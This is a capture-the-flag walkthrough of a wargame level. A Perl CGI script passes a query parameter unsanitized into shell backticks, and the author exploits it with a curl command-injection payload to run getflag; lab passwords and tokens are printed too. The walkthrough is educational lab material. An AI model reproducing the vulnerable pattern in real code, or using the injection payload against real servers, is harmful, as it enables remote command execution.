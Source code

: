 `su level04 -> qi0maab88jeaj46qoumi7maus`

We have a file named **level04.pl** which contains:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

It's a CGI script who take a query string argument named x and run echo with this value.
This script is already in **/var/www/** which is the root of apache (port 80).
Its owner is **flag04**.

```
$ ls -la /var/www/level04
-r-xr-x---+ 1 flag04 level04 152 Jan 30 10:36 level04.pl
```

We can try to run the CGI:

```
$ curl localhost/level04/level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The CGI is not executed, this server is not configured to run CGI.
Check the config files of apache and we can find where cgi are handle:

```
$ cat /etc/apache2/sites-available/level05.conf
<VirtualHost *:4747>
        DocumentRoot    /var/www/level04/
        SuexecUserGroup flag04 level04
        <Directory /var/www/level04>
                Options +ExecCGI
                DirectoryIndex level04.pl
                AllowOverride None
                Order allow,deny
                Allow from all
                AddHandler cgi-script .pl
        </Directory>
</VirtualHost>
```

We can try to use the port 4747.

```
$ curl localhost:4747

```

We got a newline so we can deduce that the CGI is executed.
Lets try with a query string who set x.

```
$ curl localhost:4747/?x=hello
hello
```

Its working like expected so we can try to inject some code.

```bash
curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
